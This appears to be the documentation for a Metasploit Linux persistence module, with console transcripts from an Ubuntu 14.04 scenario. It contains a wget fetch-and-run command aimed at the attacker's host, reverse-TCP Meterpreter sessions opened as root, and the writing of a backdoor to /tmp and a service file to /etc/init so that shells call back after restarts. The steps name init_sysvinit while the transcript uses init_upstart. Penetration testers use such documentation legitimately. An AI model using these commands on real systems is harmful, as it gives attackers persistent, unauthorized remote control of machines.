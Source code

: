 ## Vulnerable Application

This module will create a service on the box, and mark it for auto-restart.
We need enough access to write service files and potentially restart services

Targets:

* CentOS 6
* Fedora >= 9, < 15
* Ubuntu >= 9.10, <= 14.10

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/init_sysvinit`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

### SERVICE

The name of the service to create. If not chosen, a random one is created.

### PAYLOAD_NAME

The name of the file to write with our shell if a non-cmd payload is used. If not chosen, a random one is created.

### RESTART_LIMIT

The number of times to restart the service. If using a threaded payload (fetch), this is how many shells you may get. Defaults to 3

## Scenarios

### Ubuntu 14.04

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO HvGO7GyB --no-check-certificate http://111.111.1.111:8181/l; chmod +x HvGO7GyB; ./HvGO7GyB& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:52092) at 2025-02-16 10:52:49 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_upstart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:2) exploit(linux/persistence/init_upstart) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/home/ubuntu) > sysinfo
Computer     : Ubuntu14.04
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/home/ubuntu) > getuid
Server username: root
(Meterpreter 1)(/home/ubuntu) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_upstart) > 
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you want to choose elsewhere.
[+] The target appears to be vulnerable. /tmp/ is writable and system is upstart based
[*] Writing backdoor to /tmp//GXhkVaF
[*] Writing '/tmp//GXhkVaF' (250 bytes) ...
[*] Writing service: /etc/init/kKxVjJjUUOVq.conf
[*] Starting service
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/Ubuntu14.04_20250216.5324/Ubuntu14.04_20250216.5324.rc
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:53847) at 2025-02-16 10:53:24 -0500
```